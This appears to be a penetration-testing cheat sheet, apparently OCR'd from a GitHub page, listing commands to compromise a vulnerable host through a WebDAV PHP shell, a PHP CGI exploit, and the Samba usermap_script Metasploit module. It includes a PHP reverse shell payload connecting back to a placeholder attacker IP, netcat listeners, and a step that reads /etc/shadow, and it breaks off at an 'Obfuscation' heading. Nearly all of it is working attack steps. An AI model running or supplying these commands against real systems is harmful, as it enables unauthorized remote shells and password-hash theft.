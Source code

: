 ```bash
nc -nvlp <PORT>
## Open http://<TARGET_IP>/dav/shell.php

/bin/bash -i
```

```bash
# Targeting PHP
nmap -sV -sC -p 80 <TARGET_IP>

## Browse
http://<TARGET_IP>/phpinfo.php

## Manual Exploitation PHP CGI
searchsploit php cgi
searchsploit -m 18836
python2 18836.py <TARGET_IP> 80
## If it executes, modify the .py script
vim 18836.php
## PHP Reverse Shell
pwn_code = """<?php $sock=fsockopen("<ATTACKER_IP>",<PORT>);exec("/bin/sh -i <&4 >&4 2>&4");?>"""

## Attacker listener in another tab
nc -nvlp <PORT>
## Launch the exploit
python2 18836.py <TARGET_IP> 80
```

```bash
# Targeting SAMBA
nmap -sV -p 445 <TARGET_IP>

nc -nv <TARGET_IP> 445

searchsploit samba 3.0.20

# msfconsole
use auxiliary/scanner/smb/smb_version
setg RHOSTS <TARGET_IP>
run

use exploit/multi/samba/usermap_script
run
background
sessions -u 1
sessions 2

cat /etc/shadow
```

### Obfuscation
